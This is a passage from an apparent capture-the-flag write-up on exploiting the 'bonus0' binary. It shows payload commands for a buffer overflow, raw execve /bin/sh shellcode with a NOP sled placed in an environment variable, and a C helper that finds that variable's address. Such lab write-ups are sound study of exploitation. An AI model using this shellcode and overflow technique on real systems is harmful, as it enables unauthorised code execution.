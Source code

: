### Challenge 1: Two-Part Input Handling

The program expects two separate inputs, but our testing showed issues:

```bash
(python -c 'print "AAAA"'; python -c 'print "BBBB"') | ./bonus0
```

This approach failed because `read()` would consume both inputs at once for the first prompt. To solve this, we needed to overflow the `read()` buffer in a specific way:

```c
  read(0, input_buffer, 4096);  // Read up to 4096 bytes from stdin
```

```bash
python -c "print 'A'*4095 + '\n' + 'second_input'" > /tmp/payload
```

This creates a file where the first input is 4096 bytes (the limit set on the `read()`), forcing the program to make a second `read()` call for the second input.

### Challenge 2: Shellcode Size Limitation

The `p()` function only copies 20 bytes from our input:

```c
strncpy(buffer, input_buffer, 20);
```

Our shellcode is 21+ bytes, making it impossible to fit within this limitation. We solved this by using an environment variable:

```bash
SHELLCODE=$(python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
# Create a NOP sled followed by the shellcode
# The NOP sled (0x90 bytes) creates a "landing zone" that increases our chances of 
# successfully executing the shellcode even if our address is slightly off
# Check level2's walkthrough for more details on the shellcode
```

### Challenge 3: Environment Variable Address Consistency

Environment variables can have different addresses across runs, making exploitation unreliable. We created a helper program to find the address:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("SHELLCODE address: %p\n", addr);
    } else {
        printf("SHELLCODE not found\n");
    }
    return 0;
}
```
